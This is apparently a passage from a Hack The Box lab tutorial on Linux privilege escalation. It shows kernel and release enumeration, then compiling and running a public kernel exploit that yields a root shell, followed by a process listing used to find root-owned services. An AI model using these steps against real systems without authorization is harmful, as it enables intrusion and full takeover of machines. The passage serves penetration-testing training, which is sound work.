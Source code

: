```shell-session
cyberslut@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```


```shell-session
cyberslut@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

In this case, we can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with [this](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using `wget` or another file transfer method. We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

```shell-session
cyberslut@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
cyberslut@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.

```shell-session
root@htb[/htb]# whoami

root
```

- Running services (e.g. Nagios, Exim, Samba, ProFTPd, etc), ESPECIALLY those running as root: check for public exploit PoCs

If we look at the process list, it can give us information about which scripts or binaries are in use and by which user. So, for example, if it is a script created by the administrator in his path and whose rights have not been restricted, we can run it without going into the `root` directory.

```shell-session
cyberslut@htb[/htb]$ ps aux | grep root

...SNIP...
root           1  2.0  0.2 168196 11364 ?        Ss   12:31   0:01 /sbin/init splash
root         378  0.5  0.4  62648 17212 ?        S<s  12:31   0:00 /lib/systemd/systemd-journald
root         409  0.8  0.1  25208  7832 ?        Ss   12:31   0:00 /lib/systemd/systemd-udevd
root         457  0.0  0.0 150668   284 ?        Ssl  12:31   0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
root         752  0.0  0.2  58780 10608 ?        Ss   12:31   0:00 /usr/bin/VGAuthService
root         755  0.0  0.1 248088  7448 ?        Ssl  12:31   0:00 /usr/bin/vmtoolsd
root         772  0.0  0.2 250528  9388 ?        Ssl  12:31   0:00 /usr/lib/accountsservice/accounts-daemon
root         773  0.0  0.0   2548   768 ?        Ss   12:31   0:00 /usr/sbin/acpid
root         774  0.0  0.0  16720   708 ?        Ss   12:31   0:00 /usr/sbin/anacron -d -q -s
root         778  0.0  0.0  18052  2992 ?        Ss   12:31   0:00 /usr/sbin/cron -f
root         779  0.0  0.2  37204  8964 ?        Ss   12:31   0:00 /usr/sbin/cupsd -l
root         784  0.4  0.5 273512 21680 ?        Ssl  12:31   0:00 /usr/sbin/NetworkManager --no-daemon
```